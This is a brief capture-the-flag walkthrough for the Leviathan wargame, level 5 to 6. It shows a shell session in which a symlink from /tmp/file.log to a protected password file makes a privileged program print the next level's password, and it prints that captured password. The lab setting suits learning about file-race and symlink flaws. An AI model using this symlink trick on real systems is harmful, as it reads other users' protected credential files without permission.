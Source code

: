 # Leviathan Level 5 → Level 6

## Solution
```
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```
